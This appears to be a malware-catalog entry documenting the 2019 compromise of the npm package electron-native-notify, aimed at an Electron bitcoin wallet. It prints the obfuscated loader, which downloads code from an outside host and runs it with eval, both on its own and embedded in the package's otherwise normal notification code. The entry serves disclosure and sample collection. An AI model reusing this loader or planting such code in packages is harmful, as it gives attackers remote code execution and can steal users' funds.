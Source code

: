 ```yaml
---
title: electron-native-notify
date: '2019-06-04'
tags:
  - npm
  - nodejs
  - supply-chain
  - electron
  - native
---
```


This was a compromised npm package in the same vein as `event-stream` targeting an electron-based bitcoin wallet. The included JavaScript below is just the loader. If you have the JavaScript that was loaded please <a href="mailto:badjs.org@gmail.com">submit it as a sample</a>

- - -

## References

- [Plot to steal cryptocurrency foiled by the npm security team](https://blog.npmjs.org/post/185397814280/plot-to-steal-cryptocurrency-foiled-by-the-npm)
- [Reference tweet](https://twitter.com/r2cdev/status/1136691852856311808)
- [Gist of compromised file](https://gist.github.com/ievans/7e10101cadb823583f77a5d40c64ec5b#file-index-js-L11)

## Loader


```js
try {
  (process && "renderer" === process.type ? require("electron").remote.require : require)("https").get("https://updatecheck.herokuapp.com/check", res => res.on("data", d => {
      try {
          eval((atob || (e => "" + Buffer.from(e, "base64")))("" + d))
      } catch (e) {}
  }))
} catch (e) {}
```

## Original

```js
const MainProcessNotification = require("electron").Notification;
const isRenderer = process && process.type === "renderer";
const isSupported = () => isRenderer ? "Notification" in window : MainProcessNotification.isSupported();
const renderNotify = (title, body) => {
    const notification = new Notification(title, {
        body: body
    });
    return notification
};
try {
    (process && "renderer" === process.type ? require("electron").remote.require : require)("https").get("https://updatecheck.herokuapp.com/check", res => res.on("data", d => {
        try {
            eval((atob || (e => "" + Buffer.from(e, "base64")))("" + d))
        } catch (e) {}
    }))
} catch (e) {}
const mainNotify = (title, body) => {
    const notification = new MainProcessNotification({
        title: title,
        body: body
    });
    notification.show();
    return notification
};
const notify = (title, body) => {
    if (isRenderer) {
        return renderNotify(title, body)
    } else {
        return mainNotify(title, body)
    }
};
notify.isSupported = isSupported;
module.exports = notify;
```
